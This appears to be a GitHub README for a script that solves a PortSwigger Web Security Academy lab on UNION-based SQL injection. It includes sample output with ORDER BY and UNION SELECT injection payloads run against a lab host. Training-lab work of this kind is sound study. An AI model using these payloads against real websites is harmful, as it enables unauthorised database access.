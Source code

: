 # 🔐 SQL Injection vulnerability using UNION to identify column containing text

This script is designed to test for basic SQL injection vulnerabilities in labs from PortSwigger's Web Security Academy Lab: [SQL injection vulnerability using UNION to identify column containing text](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-finding-columns-with-a-useful-data-type/sql-injection/union-attacks/lab-find-column-containing-text#). It targets endpoints like `/filter?category=` and checks whether a given payload successfully bypasses input validation.

---

## 🚀 How It Works

The script performs the following steps:

1. **Disables SSL warnings** to avoid certificate issues with lab URLs.
2. **Sets up a proxy** (default: `127.0.0.1:8080`) for interception via tools like Burp Suite.
3. **Accepts two arguments**:
   - `url`: The base URL of the lab.
   - `string`: The SQL injection string to test.
4. **Constructs the full request URL** by appending the payload to `/filter?category=`.
5. **Sends the request** and checks the response if it returns back the search text, it is successful
6. **Prints the result** indicating whether the injection was successful.

---

## 🧪 Sample Usage

```bash
python3 unionTextColumnFInder.py https://0af6002503a6725d8062172900cf0019.web-security-academy.net erWOd5
```

### ✅ Sample Output

```
(+) Targeting: https://0af6002503a6725d8062172900cf0019.web-security-academy.net
(+) Determining number of columns using ORDER BY...

    ➤ Testing payload: ' ORDER BY 1--
    ➤ Testing payload: ' ORDER BY 2--
    ➤ Testing payload: ' ORDER BY 3--
    ➤ Testing payload: ' ORDER BY 4--

(✓) Found error at column 4, so total columns = 3

(+) Testing which of 3 columns accepts string data...

    ➤ Testing payload: ' UNION SELECT 'erWOd5',null,null--
    ✗ Column 1 caused an error. Trying next...

    ➤ Testing payload: ' UNION SELECT null,'erWOd5',null--

(✓) Column 2 accepts string data.

[✓] Lab solved with the following payload:

    ' UNION SELECT null,'erWOd5',null--
```

---

## 📌 Lab-Specific Note

For this particular lab, the script checks whether the response contains the search text to determine success. You can modify this keyword in the code to match other labs or contexts.

---

## 📦 Requirements

Install dependencies using:

```bash
pip install -r requirements.txt
```

---

## 📦 Walkthrough of the code
[Code Walkthrough](https://medium.com/@adhithyasivanesh/portswigger-web-security-academy-labs-sqli-lab-1-retrieving-hidden-data-fe40ea356d5d)

